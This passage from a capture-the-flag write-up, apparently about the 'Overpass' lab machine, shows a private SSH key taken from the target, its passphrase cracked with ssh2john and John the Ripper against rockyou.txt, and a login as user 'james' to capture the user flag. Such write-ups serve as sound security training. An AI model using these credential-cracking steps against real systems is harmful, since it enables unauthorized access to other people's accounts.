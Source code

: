 ## Attempting User Access
After moving the key into my VM's `~/.ssh/id_rsa` file and changing the permissions to 600 (`chmod 600 ~/.ssh/id_rsa`) I try logging in to the server through ssh.
```
root@4106f9d82986:~# ssh james@$ip
Enter passphrase for key '/root/.ssh/id_rsa':
```
Well, looks like there is a passphrase to deal with. No biggie - the admin webpage did mention cracking it. To JohnTheRipper!

## Cracking Passphrase
First we need to convert the id_rsa into a hash that john likes. There is a utility ssh2john that does this for us, but my vm didn't have that, so I grabbed the johntheripper repo from github.
```
git clone https://github.com/magnumripper/JohnTheRipper
```
Now I have the python script I need.
```
chmod 666 ~/.ssh/id_rsa
python JohnTheRipper/run/ssh2john.py ~/.ssh/id_rsa > id_rsa.hash
chmod 600 ~/.ssh/id_rsa
```
Now that we've got a nice hash to use, let's get cracking
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
Alright now we've got the passphrase!

## Capturing User Flag
We ssh again, now armed with out passphrase.
```
root@4106f9d82986:~# ssh james@$ip
Enter passphrase for key '/root/.ssh/id_rsa':

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantage

 System information as of Tue Jul 21 22:46:07 UTC 2020

 System load: 0.0 Processes: 88
 Usage of /: 22.9% of 18.57GB Users logged in: 0
 Memory usage: 15% IP address for eth0: 10.10.148.232
 Swap usage: 0%


47 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Tue Jul 21 22:20:53 2020 from 10.1.69.107

james@overpass-prod:~$ whoami
james
james@overpass-prod:~$ ls
todo.txt user.txt
```
Woot - Flag Captured!
